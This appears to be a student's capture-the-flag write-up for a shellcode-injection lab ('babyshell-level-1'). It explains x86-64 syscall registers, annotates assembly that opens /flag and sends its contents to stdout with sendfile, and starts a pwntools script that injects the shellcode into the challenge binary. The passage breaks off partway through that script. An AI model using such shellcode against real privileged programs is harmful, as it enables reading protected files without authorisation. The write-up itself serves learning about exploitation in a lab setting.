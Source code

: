 1. **Syscall essentially** -> (system call) allows the user to request services from the OS's kernel (bridge between software and hardware) for eg ``2`` is a ``openfile()`` command and ``0`` is a ``readfile()`` command
2. **Syscall registers** (accumalators) -> ``RAX`` Is used to hold the syscall numnber and stores the value if returned from syscalls. 
3. **Base Register** -> ``RBX`` Base register used to hold addresses and offsets **(RBX IS ALSO A GENERAL PURPOSE REGISTER)**
4. **Counter Registers** -> Used as a counter for looping instructions ``RCX``
5. **Syscall Arguments** -> ``rdi``, ``rsi``, ``rdx``, ``r10``, ``r8``, ``r9`` in orders of the 1st to the 6th argument that could be passed to a syscall. (rdi) = Register Destination Index, (rsi) = Register Source Index.

Now that we know all of this let's discuss the asm code they have given us ->

```asm
mov rbx, 0x00000067616c662f  # push "/flag" filename
push rbx

mov rax, 2                  # syscall number of open
mov rdi, rsp                # point the first argument at stack (where we have "/flag")
mov rsi, 0                  # NULL out the second argument (meaning, O_RDONLY)
syscall                     # trigger open("/flag", NULL)

mov rdi, 1                  # first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax                # second argument is the file descriptor returned by open
mov rdx, 0                  # third argument is the number of bytes to skip from the input file
mov r10, 1000               # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                 # syscall number of sendfile
syscall                     # trigger sendfile(1, fd, 0, 1000)

mov rax, 60                 # syscall number of exit
syscall                     # trigger exit()
```

- The first 2 instructions push the "/flag" onto the stack with hex representation but with little endian representation. Hence its reversed
- After that we setup a syscall for ``open`` (2) value in syscall we then have the first argument point to ``/flag`` and Null for read only mode the 2nd argument to which we then ``open("/flag")``
- We then change the first argument of sendfile to output, second argument is whatever was returned to ``RAX`` by the syscall for ``open`` We then skip the number of bytes of input to this file and then change the sycall number to ``sendfile`` This is then triggered
- We then just do syscall to exit and trigger it

Essentially we are just ->

Opening the file (done in read only mode) -> Sends the file contents (standard output of 1000 bytes and 0 offset) -> exit

Hence this does what is required so we can make a cool script out of this.


```python
from pwn import *

p = process("/challenge/babyshell-level-1")
context.arch = 'amd64'

shellcode = asm(f'''
mov rbx, 0x00000067616c662f  # push "/flag" filename
push rbx

mov rax, 2                  # syscall number of open
mov rdi, rsp                # point the first argument at stack (where we have "/flag")
mov rsi, 0                  # NULL out the second argument (meaning, O_RDONLY)
syscall                     # trigger open("/flag", NULL)

```